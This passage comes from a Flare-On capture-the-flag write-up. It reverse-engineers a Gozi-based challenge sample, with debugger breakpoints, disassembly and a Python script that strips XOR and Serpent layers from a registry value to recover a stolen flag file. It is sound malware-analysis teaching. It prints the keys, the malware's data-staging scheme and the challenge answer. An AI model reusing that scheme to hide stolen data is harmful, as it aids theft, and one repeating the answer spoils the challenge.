00000050: 4937 e6ef 5857 5607 b2fb 1363 bcc2 0be3  I7..XWV....c....
00000060: d291 f7b7 1a76 6a42 e3e8 2f09 312f 4fe2  .....vjB../.1/O.
00000070: 9144 54ef c78c 2335 0d25 f1e1 3880 14b7  .DT...#5.%..8...
00000080: f27c 5538 2a9b b411 d063 1f24 2890 f1f3  .|U8*....c.$(...
00000090: e7c8 7446 02ea 66ce 1ba9 71cc 1b12 b397  ..tF..f...q.....
000000a0: 9e05 8b19 0473 1f83 e5d7 daf9 0583 f571  .....s.........q
000000b0: 70d4 59c2 1fd7 d47e 6e77 1ac3 58cb b934  p.Y....~nw..X..4
000000c0: 1c81 73c9 dea9 649a 6efd 0fe2 c33d c3a3  ..s...d.n....=..
```

Absolutely yes! This looks like an encrypted/compressed file with very high entropy and no null bytes at all. It is indeed a candidate to contain the stolen file and the flag.

## Decrypting DiMap

How can we decrypt it? We were not able to extract a Serpent key out of it, and we didn't see "DiMap" generated yet. That said, we tried really hard to avoid anything that smells like a rabbit hole, so we only executed the program until the first module was decrypted, we didn't let it run now under the `explorer.exe` process name. Can we find when the `DiMap` name is generated and used to store an encrypted file, `flag.txt` maybe? Well, it worth a try.

What we want to do now, is to let the program run and print the registry key names it generates until it generates `DiMap`. Then, we would like to see if we can find how this registry key is used. That is, if a buffer is written to the `DiMap` registry key, and how this buffer was encrypted. To do this, we can set a conditional breakpoint right after a name is generated. We already mentioned that names are generated using the SID and XorShift in the function at `0x14001021C`. We can put the following conditional breakpoint at offset `0x140010243`.

```python
# Read a UTF-16 string pointed by RAX
name = get_strlit_contents(get_reg_value("rax"), -1, STRTYPE_C_16)
print(f"Generated name: {name}")

if name == b"DiMap":
   print("STOP EVERYTHING! :O")
   
   # Returning 1 will stop the execution
   return 1
```

Now we can run the program and observe it printing generated names. We can cross our fingers that `DiMap` will eventually be generated and pause the execution.



During the execution, we noticed that the program is branching out and hanging after the third module (`RowmapGuiprotocol`) is loaded. We simply changed the instruction pointer to force it to branch right and continue the execution. This might happen in your environment as well, and it as well may not.





We press the play button and crossing our fingers hard, maybe too hard, until eventually — the program stops! We reached the name generation of `DiMap`!

```python
Generated name: b'Timerpro'
Generated name: b'Languagetheme'
Generated name: b'Columncurrent'
Generated name: b'WebsoftwareProcesstemplate'
Generated name: b'RowmapGuiprotocol'
Generated name: b'WordlibSystemser'
Generated name: b'WebmodeThemearchive'
Generated name: b'SolutionDat'
... TRUNCATED FOR READABILITY ...
Generated name: b'Columncurrent'
Generated name: b'PrintsolutSavetheme'
Generated name: b'Columncurrent'
Generated name: b'ThemespellDaytheme'
Generated name: b'NewFalse'
Generated name: b'DiMap'
STOP EVERYTHING! :O
```

The execution paused at our breakpoint. Tracing back the stack leads us to the function which is responsible to trigger this flow. We called it `Generate_DiMap`. As can be seen in the snippet below, the function is rather simple and contains calls to two functions. One of them, the latter, is a call to a function that generates `DiMap` and writes a buffer to the `DiMap` registry key. The first call is unknown to us as we stopped after it. Maybe this is the function that is responsible to encrypt the buffer before saving it to the registry.

```asm
func Generate_DiMap
    0x1E4BB3 push  rax
    0x1E4BB4 sub   rsp, 20h
    0x1E4BB8 mov   rdi, [r12+18h]
    0x1E4BBD mov   ebx, [r12+28h]
    0x1E4BC2 xor   r9, r9
    0x1E4BC5 mov   rax, cs:qword_1E6070
    0x1E4BCC mov   r8d, [eax+78h]
    0x1E4BD1 mov   rdx, rbx
    0x1E4BD4 mov   rcx, rdi
    0x1E4BD7 mov   rax, cs:off_1E52D8
    0x1E4BDE sub   ax, 454h

    0x1E4BE2 call  rax ; qword_1E4E84

    0x1E4BE4 mov   r9, rbx
    0x1E4BE7 mov   r8, rdi
    0x1E4BEA mov   dl, 3
    0x1E4BEC mov   cl, 7Fh
    0x1E4BEE mov   ch, cl

    0x1E4BF0 call  generate_name_and_set_registry_value
    
    0x1E4BF5 mov   edi, 24924925h
    0x1E4BFA add   rsp, 20h
    0x1E4BFE pop   rax
    0x1E4BFF retn
```

Let's set a breakpoint at the beginning of `Generate_DiMap` and run the program again. This time, we will enter the first call to `rax`. Running the program once again, we are now stopped at `0x1E4BE2`, just before the `DiMap` name is generated. Stepping into the `call` we see a `jmp` instruction to a function in `0x1C542C` that looks familiar. Too familiar. The function we have just arrived at looks like the reversed function of the XOR decryption function we implemented at the beginning of the analysis (`xor_decrypt_data`). In fact, this looks like the encryption function that was responsible for XOR encrypting the data. We can safely assume that this is a rolling XOR encryption function so let's name it `xor_encrypt_data`. Note, that if you will check the leaked source code, you will also find a pair of XOR encryption and decryption function which will look similar (but not an exact match) to our own pair of functions.



Inspecting the function arguments, we can see that it gets a buffer and a key, exactly like the decryption function we saw and implemented at the beginning. The key that is used is `0xFB307BFA`, and the buffer looks like nothing. It looks like the buffer before the encryption is already encrypted. Weird.



The buffer to be encrypted by `xor_encrypt_data`

We don't know what data was sent to this encryption function, because we didn't follow the flow of the program to get the context. That said, we do know that this encryption routine is performed on the data just before it is written to `DiMap`. As such, it makes sense to give it a try and use the decryption function we implemented earlier, to try and decrypt `DiMap`. Let's give it a try:

```python
# The generated key
key = 0xFB307BFA
# Read DiMap from the file we extracted from the registry
encrypted_buffer = open("keys/Timerpro/DiMap.bin", 'rb').read()
# Use the xor_decrypt_data function we implemented before
xor_decrypted = xor_decrypt_data(encrypted_buffer, key)

print(xor_decrypted)

# results:
# b'\xfew1z\xf9!\xefR\x96w \xbfCF\xd5I\x06(\xd6([\xe0\xc5\x9d\x99\xb4\x04\xf1\xf2\xb8\...[truncated]...\x81\xa7\xf1\xf21\x8f,\x9cHT\x89\xd7{\x8b\xdb\xfeF\xc0|<\xc9\xbe1\xfa\x06\x8a3u\x82J/[\x83{\xb5\xcb\xaf'
```

Oh... this did not work as we expected. After executing the `xor_decrypt_data` on `DiMap` we still got a meaningless output — not the flag we wished for. We know for sure that the buffer that is sent to the encryption function is saved to the `DiMap` registry key, but the results we got are disappointed. We probably need to look further back into the flow of the program. After all, even when we debugged and paused before arriving at the encryption function, the data looked encrypted/compressed. What if an encryption or compression function was called before? Let's go back to our debugger and inspect the flow once again.

When we went back to IDA, we noticed that something interesting was printed to the output window. It was one of the conditional breakpoints we put earlier on `0x14000CDDF`, that prints the used Serpent keys for us. It printed a Serpent key to the screen, right before `Generate_DiMap` was called. And this key looks exactly like a string we saw in the decrypted `MonitornewWarningmap` file.

```python
Serpent key: b'GSPyrv3C79ZbR0k1'
```

Was the result of `xor_decrypt_data` encrypted with another layer of Serpent encryption? We can look even more backward, and see where did the buffer come from before it was sent to the XOR encryption function. If we can find a call to a Serpent encryption function that encrypts the data before passing it forward, then we just might have the right key printed for us. So let's look at what functions are called before calling `Generate_DiMap`:

```asm
...
0x1E1157 call    cs:w_SerpentEncrypt  ; Encrypt a buffer using Serpent
0x1E115D lock add dword ptr [r13+0E0h], 0FFFFFFFFh
0x1E1166 cmp     eax, esi
0x1E1168 jnz     short loc_1E11E8
0x1E116A lea     ecx, [rsi+77h]
0x1E116D mov     dword ptr [r12+2Ch], 1
0x1E1176 call    j_w_RtlAllocateHeap  ; <-- Allocate heap
0x1E117B cmp     rax, rsi
0x1E117E mov     rbp, rax
0x1E1181 jz      short loc_1E11E8
0x1E1183 call    cs:off_1E5008
0x1E1189 call    Generate_DiMap  ; <-- XOR Encrypt, generate DiMap name and set registry
...
```

Yes! It looks like a Serpent encryption function was called just before encrypting a buffer using XOR and setting the results in the `DiMap` registry key. This explains several things:

1. Why we saw a buffer that looks encrypted even before it went through the XOR encryption
2. When we used `xor_decrypt_data` we still got encrypted results
3. We saw a Serpent key (`GSPyrv3C79ZbR0k1`) that was printed to the screen right before our program paused.

If true, then it means that the content of `DiMap` was encrypted like this:

```python
# [PSEUDO]
xor_encrypt_date(serpent_encrypt("GSPyrv3C79ZbR0k1", data), 0xFB307BFA)
```

This means, that in order to decrypt the encrypted `DiMap` we need to perform the reversed process and hope for the best:

```python
# [PSEUDO]
serpent_decrypt("GSPyrv3C79ZbR0k1", xor_decrypt_date(encrypted_data, 0xFB307BFA))
```

Having this information, we can try to add another decryption layer to our Python code and decrypt the results of `xor_decrypt_data` with Serpent. Crossing our fingers.

```python
from malduck import chunks, rol, p32, u32, serpent

def xor_decrypt_data (encrypted_buffer, key):
    rol_value = 0
    prev = 0
    decrypted_buffer = bytes()

    for dword in chunks(encrypted_buffer, 4):
        temp = prev ^ u32(dword) ^ key
        decrypted_buffer += p32(rol(temp, rol_value * 4))
        rol_value ^= 1
        prev = u32(dword)
    
    return decrypted_buffer

# The generated keys
xor_key = 0xFB307BFA
serpent_key = b"GSPyrv3C79ZbR0k1"

# Read the encrypted file extracted from the DiMap registry key
encrypted_buffer = open("keys/Timerpro/DiMap.bin", 'rb').read()

# First layer of decryption
xor_decrypted = xor_decrypt_data(encrypted_buffer, xor_key)

# Second layer of decryption
results = serpent.cbc.decrypt(serpent_key, xor_decrypted)

print(results)
```

Results:

```python
b'PK\x03\x04\x14\x00\x00\x08\x08\x00\x00\x00\x00\x00\x1e\x8c\xe3`/\x00\x00\x00*\x00\x00\x00\x1e\x00\x00\x00C/Users/Kevin/Desktop/flag.txt\x01*\x00\xd5\xffr4d1x_m4l0rum_357_cup1d1745@flare-on.com\r\nPK\x01\x02\x00\x00\x14\x00\x00\x08\x08\x00\x00\x00\x00\x00\x1e\x8c\xe3`/\x00\x00\x00*\x00\x00\x00\x1e\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00C/Users/Kevin/Desktop/flag.txtPK\x05\x06\x00\x00\x00\x00\x01\x00\x01\x00L\x00\x00\x00k\x00\x00\x00\x00\x00\x00\x00\x00'
```

**Amazing!** We were able to decrypt `DiMap` and got the flag inside a ZIP file. We literally can see the full flag inside the printed contents. When extracted, we can see the stolen `flag.txt` file:

```bash
$ cat C/Users/Kevin/Desktop/flag.txt 
r4d1x_m4l0rum_357_cup1d1745@flare-on.com
```

## Summary

During this write up we tried hard not to enter the rabbit hole. The idea behind avoiding these noises is that we can stay focused and less frustrated during the challenge and always be sure that we are going forward towards the flag. In this final writeup, we demonstrated that it is possible to solve this challenge without analyzing Gozi modules and with little to no knowledge about this popular malware. We tried to avoid using the source code during both the analysis and the write-up so we can all learn how to approach such a challenge even when the source code and other articles aren't available to us.

As this is a very long article, many interesting things and tricks, as well as different observations were left out. We hope that you were able to learn from the things that made their way into this text.

FIN.

---

## Appendix

1. [dump_registry.py](dump_registry.py)
2. [decrypt_modules.py](decrypt_modules.py)
